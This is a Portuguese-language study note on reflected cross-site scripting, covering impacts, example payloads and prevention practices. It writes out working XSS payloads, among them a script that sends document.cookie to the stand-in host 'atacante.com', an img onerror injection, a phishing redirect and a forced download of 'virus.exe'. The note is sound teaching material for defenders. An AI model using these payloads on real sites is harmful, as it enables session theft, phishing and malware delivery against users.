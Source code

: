 [[2 - LABS - XSS - Cross-site scripting (Reflected)]]

### **O que é?**

Reflected XSS ocorre quando **dados enviados pelo usuário** (como via URL, parâmetros GET ou POST) **são refletidos diretamente na página** sem validação ou sanitização. Isso permite a injeção e execução de **código malicioso no navegador da vítima**.

---

### **Impactos Possíveis**

- Roubo de **cookies** de sessão.
    
- Captura de dados digitados (**keylogger**).
    
- Redirecionamento para páginas de **phishing**.
    
- Download automático de **malwares**.
    
- Controle completo do navegador da vítima dentro do domínio da aplicação vulnerável.
    

---

### **Exemplo Básico de Injeção**

Se uma aplicação aceita um parâmetro `?nome=` na URL e o reflete diretamente em uma página HTML, podemos injetar um `script` assim:

```
http://vulneravel.com/?nome=<script>alert('XSS')</script>
```

Se o site não tratar corretamente esse input, o navegador da vítima **executa o alerta**, provando a execução de código.

---

### **Exemplo Realista (Coleta de Cookies)**

```html
<script>
  fetch('http://atacante.com/coletor?cookie=' + document.cookie);
</script>
```

Esse script, ao ser injetado, **envia os cookies da vítima para o atacante**, permitindo acesso à sessão da vítima caso o cookie não esteja com o atributo `HttpOnly`.

---

### **Alternativas à tag `<script>`**

Mesmo que o site bloqueie `<script>`, outras **tags HTML com atributos executáveis** podem ser usadas:

```html
<img src="x" onerror="alert('XSS via IMG')">
```

Nesse exemplo:

- A imagem falha ao carregar (`src="x"` inválido).
    
- O atributo `onerror` é executado automaticamente.
    

---

### **Redirecionamento para Phishing**

Você pode injetar um código que **automaticamente redireciona a vítima** para um site falso:

```html
<script>window.location='http://site-falso.com'</script>
```

Imagine isso aplicado em um site de banco ou e-commerce. O usuário clicaria em um link confiável, mas seria **direcionado para uma página de login falsa** (phishing).

---

### **Download de Malware (Simulação)**

```html
<a href="http://malware.com/virus.exe" download>Baixar Relatório</a>
```

Ou um redirecionamento forçado:

```html
<script>window.location.href='http://malware.com/virus.exe'</script>
```

---

### **Boas Práticas para Evitar XSS**

- **Escapar caracteres especiais**: `<`, `>`, `"`, `'`, `&`, `/`.
    
- **Sanitização** de entradas do usuário.
    
- Habilitar o atributo `HttpOnly` e `Secure` nos cookies.
    
- Utilizar **CSP (Content Security Policy)**.
    
- Evitar refletir dados diretamente no HTML.